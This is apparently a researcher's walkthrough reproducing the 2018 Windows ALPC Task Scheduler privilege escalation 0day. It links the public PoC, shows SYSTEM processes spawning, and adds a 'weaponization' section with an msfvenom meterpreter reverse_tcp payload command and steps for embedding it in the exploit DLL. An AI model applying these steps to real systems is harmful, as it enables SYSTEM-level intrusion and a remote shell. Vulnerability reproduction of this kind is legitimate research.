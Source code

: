 # ALPC bug 0day

[https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar](https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar)

{% embed url="https://www.theregister.co.uk/2018/08/28/windows\_0day\_pops\_up\_out\_of\_span\_classstrikenowherespan\_twitter/" %}

## How to use

A 0day for a local priv esc for Windows was published August 28th on Twitter by @sandboxescaper, whose account was pulled quickly. The PoC is on [Github](https://github.com/SandboxEscaper/randomrepo). The video posted with the PoC wasn't evident so I made a quick reproduction to verify whether it works, and it certainly does.

* As Administrator, open [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) - right click, "Run as administrator"
* As a regular user, launch notepad. If you opened it from cmd, you get a subprocess notepad inside cmd. This thread runs with the user context you launched it with. Note that the PID of the notepad process is `3872`

![](../.gitbook/assets/image%20%2812%29.png)

![](../.gitbook/assets/image%20%2822%29.png)

* If you need to see username and  integrity level in Process Explorer you can go to View -&gt; Select columns and check 

![](../.gitbook/assets/image%20%2826%29.png)

Now, have a look at the process spoolsv.exe which is basically where the actions is going to happen. Nothing much here yet.

![](../.gitbook/assets/image%20%2832%29.png)

Now fire the exploit off and see what happens \(this is demonstrated in the PoC video\). We use the PID of the notepad process we spawned earlier `3872`

![](../.gitbook/assets/image%20%283%29.png)

Now, it appears that nothing is happening, but take a look at spoolsv in Process Explorer again.

![](../.gitbook/assets/image%20%282%29.png)

Bham! cmd.exe with subprocesses conhost and notepad has spawned as SYSTEM! 

### Windows 10 - works!

0day priv esc confirmed on Windows 10 1803. No patch has been released by MS yet \(28.08.2018\)

![](../.gitbook/assets/image%20%286%29.png)

This could probably be tweaked to open an actual cmd window as SYSTEM instead of a windowless process in the background.

Edit on the above: @plaintext notified me that the processes spawn in session 0 which is why they won't be visible to the user which operations in session 1. If you toggle Session in the columns panel in ProcExplorer you can see that very clearly.

![](../.gitbook/assets/image%20%2811%29.png)

###  Server 2016 - works

![](../.gitbook/assets/image%20%2828%29.png)

### Windows 7 - Nothing happens

![](../.gitbook/assets/image%20%2833%29.png)

\*\*\*\*

### Weaponization maybe?

After reading the source code I discovered that notepad is launched from the `exploit.dll` added as a Resource. This can be seen at line 101-105 in the source code.

```text
//Payload is included as a resource, you need to modify this resource accordingly.
HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
unsigned int myResourceSize = ::SizeofResource(mod, myResource);
HGLOBAL myResourceData = ::LoadResource(mod, myResource);
void* pMyBinaryData = ::LockResource(myResourceData);
```

When clicking that one, we can see this exploit.dll which in the PoC just spawns notepad can't be read since I don't have it in that absolute path.

![](../.gitbook/assets/image%20%2825%29.png)

So instead of recompiling and fixing the 500 errors I got from visual studio I decided it was easier to replace the dll directly as a  Resource with [CFF Explorer](https://ntcore.com/?page_id=388)'. But before I did that I had to prepare the payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.16 lport=444 -f dll -o lol.dll`

Select "Replace Resource \(raw\)" in CFF Explorer and provide the `lol.dll`. Then save the `ALPC-TaskSched-LPE.dll` as a new file. The entire exploit is now embedded into the dll file

![](../.gitbook/assets/image%20%2838%29.png)

So we  fire of the exploit again, just like we did above and wait for our shell to come back.

Woop de doo we got a SYSTEM meterpreter.

![](../.gitbook/assets/image%20%2820%29.png)

